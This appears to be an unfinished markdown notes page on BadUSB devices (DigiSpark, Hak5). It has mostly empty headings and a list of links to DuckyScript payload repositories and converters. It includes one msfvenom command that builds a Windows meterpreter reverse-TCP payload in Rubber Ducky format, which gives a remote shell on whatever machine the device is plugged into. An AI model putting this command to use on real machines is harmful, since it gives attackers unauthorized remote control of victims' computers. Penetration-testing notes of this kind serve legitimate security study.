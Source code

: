 # 02 - BadUSB

## 2.1 - DigiSpark

### 2.1.2 - Compile

## 2.2 - Hak5

TODO: Fill the setup info with step by step that contains screenshots

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f ducky-script-psh
```

---
## References

### Source Repositories

- [MTK911: ATtiny85 BadUSB Scripts](https://github.com/MTK911/Attiny85)

- [CedArctic: DigiSpark Scripts](https://github.com/CedArctic/DigiSpark-Scripts)

- [CedArctic: Duckyspark](https://github.com/toxydose/Duckyspark)

- [Dukweeno: Duckuino](https://github.com/Dukweeno/Duckuino)

- [toxydose: DuckySpark](https://github.com/toxydose/Duckyspark)

- [Hak5: USB Rubber Ducky Payloads](https://github.com/hak5/usbrubberducky-payloads)

- [HaydenMeloche: USB Rubber Ducky Toolkit](https://github.com/HaydenMeloche/USB-Rubber-Ducky-Toolkit)

- [Catboy96: Automator](https://github.com/Catboy96/Automator)

### Malduino

- [Malduino: Ducky Scripts Arduino Converter](https://malduino.com/converter/)

### Duckuino

- [Dukweeno: Duckuino DuckyScript to Arduino Converter](https://dukweeno.github.io/Duckuino/)

- [d4n5h: Duckuino DuckyScript to Arduino Converter](https://d4n5h.github.io/Duckuino/)

### DigitQuack

- [DigiQuack](https://cedarctic.github.io/digiQuack/)
